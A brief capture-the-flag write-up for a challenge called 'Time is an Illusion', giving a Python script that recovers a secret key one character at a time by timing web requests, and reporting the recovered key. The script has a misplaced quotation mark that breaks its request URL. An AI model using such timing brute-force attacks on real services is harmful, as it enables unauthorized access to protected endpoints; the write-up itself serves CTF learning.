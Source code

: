# Time is an Illusion
```python
import requests
import string
t=[]
for i in string.printable:
  x = requests.get("https://time-is-an-illusion.vishwactf.com/handle.php?key=str(i)+"_____")
  t.append(x.elapsed.total_seconds())
  print(x.elapsed.total_seconds(),i)
print(max(t))

```
* Manully run the script for each character > we get the kye to be `KuKa9`
